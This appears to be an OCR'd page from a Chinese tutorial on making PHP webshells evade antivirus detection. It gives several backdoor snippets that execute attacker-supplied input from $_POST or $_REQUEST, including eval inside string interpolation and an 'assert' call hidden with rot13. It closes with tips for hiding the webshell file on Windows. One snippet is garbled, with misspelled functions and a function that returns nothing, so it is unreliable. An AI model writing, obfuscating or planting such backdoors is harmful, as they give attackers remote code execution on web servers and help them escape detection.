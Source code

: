 ```php
?>
```
**五、变量掺杂**
字符串中掺杂了变量，在使用变量去拼接字符串，达到命令执行的效果，可以连接，无法免杀。
```php
<?php
	$a='p';
	eval("{$a}hpinfo();");
?>
```
## 有效免杀
**No.1**
```php
<?php
	function downloadfile($url,$x){
				$ary=parse_url($url);
				$file=basename($ary['path']);
				$ext=explode('.',$file);
				//assert
				$exec1=substr($ext[0],3,1);
				$exec2=substr($ext[0],5,1);
				$exec3=substr($ext[0],5,1);
				$exec4=substr($ext[0],4,1);
				$exec5=substr($ext[0],7,2);
			}
			$a=$_POST['x'];
			$s=downloadfile('http://www.baidu.com/asdaesfrtafga.txt',$a);
			$b=$s[0];
			$c=$s[1];
			arry_map($b,arry($c));
?>
```
**No.2**
```php
<?php
	$white="{${eval($_POST['x'])}}";
?>
```
**No.3**
rot13解密+拼接
```php
<?php
	class One{
		function xiaoma($x){
			$c=str_rot13('n!ff!re!nffreg');#a!ss!er!assert
			$str=explode('!', $c)[3];
			$str($x);
		}
	}
	$test=new One();
	$test->xiaoma($_REQUEST['x']);
?>
```
# 4-隐藏webshell
## 图形化方法
+ 右键php文件属性选择隐藏
## 命令方法
+ attrib隐藏
